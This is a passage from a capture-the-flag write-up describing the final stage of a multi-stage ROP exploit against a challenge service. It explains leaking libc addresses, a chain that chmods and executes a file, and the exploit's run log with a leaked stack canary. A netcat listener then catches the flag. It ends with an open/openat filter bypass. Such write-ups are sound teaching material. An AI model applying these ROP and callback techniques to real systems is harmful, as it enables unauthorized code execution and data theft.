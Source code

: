 
Now that everything is in place all we have to do is prepare the final ROP. Notice how we leak the libc base for the edr process here aswell, and prepare two rop chains.

The final ropchain in edr is pretty simple. All we have to do is chmod our file so it's executable and execve it.

#### Putting it all together
```bash
[+] Opening connection to io.ept.gg on port 59589: Done
[*] Libc: 0x7faf3afa2000
[*] exe: 0x556dbe2a7000
[*] Loaded 219 cached gadgets for './libc.so.6'
[*] Closed connection to io.ept.gg port 59589
[*] Stage 1 done
[+] Opening connection to io.ept.gg on port 59589: Done
[*] Libc: 0x7f6284339000
[*] exe: 0x558e1be83000
[*] Canary: 0xfd91d2d128ffb200
[*] Closed connection to io.ept.gg port 59589
[*] Stage 2 done
[+] Opening connection to io.ept.gg on port 59589: Done
[*] Libc: 0x7f18f9c37000
[*] exe: 0x562b1d7cb000
[*] Closed connection to io.ept.gg port 59589
[*] Stage 3 done
[+] Opening connection to io.ept.gg on port 59589: Done
[*] Stage 4 check your nc
[*] Switching to interactive mode

1. List all running processes
2. Get details for a given process
3. Exit
Enter your choice: Enter the PID of the process: [*] Got EOF while reading in interactive
$
[*] Interrupted
[*] Closed connection to io.ept.gg port 59589
```
Looking at the solve output it looks like nothing happened, but when we check our nc listener we got our flag!
```bash
listening on [any] 55973 ...
connect to [xx.xx.xx.xx] from (UNKNOWN) [xx.xx.xx.xx] 46608
EPT{0ur_3dr_1s_b3st_3dr}
```
### Cheese

There is one more bug i did not talk about. I mentioned that the validate_file_name function inspected the pointer in rsi to confirm we did not open the flag. This is correct for openat but if we look at the syscall definitions for openat and open:
```
int open(const char *pathname, int flags);
int openat(int dirfd, const char *pathname, int flags);
```

